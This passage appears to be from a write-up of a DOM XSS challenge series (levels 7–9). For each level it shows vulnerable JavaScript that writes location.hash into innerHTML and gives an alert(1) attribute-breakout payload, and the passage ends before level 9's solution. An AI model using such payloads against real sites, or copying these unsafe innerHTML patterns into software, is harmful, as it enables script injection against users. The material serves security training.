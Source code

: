 
**Sink**: innerHTML

**Source**: location.hash

**Solution**: `#'%20onmouseover=alert(1)//`

The location.hash is written directly into `href` tag without sanitization and hence we can inject a single quote and break out of the attribtue context to inject our own event handlers.


#### Level 8:

{% highlight javascript lineos %}
let hash = location.hash;
let hashValueToUse = hash.length > 1 ? unescape(hash.substr(1)) : hash;

if (hashValueToUse.indexOf("=") > -1 ) {
    hashValueToUse = hashValueToUse.substr(hashValueToUse.indexOf("=")+1);
    hashValueToUse = hashValueToUse.replace(/</g, "&lt;").replace(/>/g, "&gt;");
    let msg = "<a href='#user=" + hashValueToUse + "'>Welcome</a>!!";
    document.getElementById("msgboard").innerHTML = msg;
}
{%endhighlight%}


**Sink**: innerHTML

**Source**: location.hash

**Solution**: `#='%20onmouseover=alert(1)//`

A small difference between this and level 7 is that what ever comes after the first `=` character is written into the DOM as a part of href tag. Since we can't inject new tags, we can use event handlers to solve the challenge.



#### Level 9:

{% highlight javascript lineos %}
let hash = location.hash;
let hashValueToUse = hash.length > 1 ? unescape(hash.substr(1)) : hash;

if (hashValueToUse.indexOf("=") > -1 ) {
    
    hashValueToUse = hashValueToUse.substr(hashValueToUse.indexOf("=") + 1);
    
    if (hashValueToUse.length > 1) {
        hashValueToUse = hashValueToUse.substr(0, 10);
        hashValueToUse = hashValueToUse.replace(/"/g, "&quot;");
        let windowValueToUse = window.name.replace(/"/g, "&quot;");
        let msg = "<a href=\"" + hashValueToUse + windowValueToUse + "\">Welcome</a>!!";
        document.getElementById("msgboard").innerHTML = msg;
    }
}
{%endhighlight%}


**Sink**: innerHTML
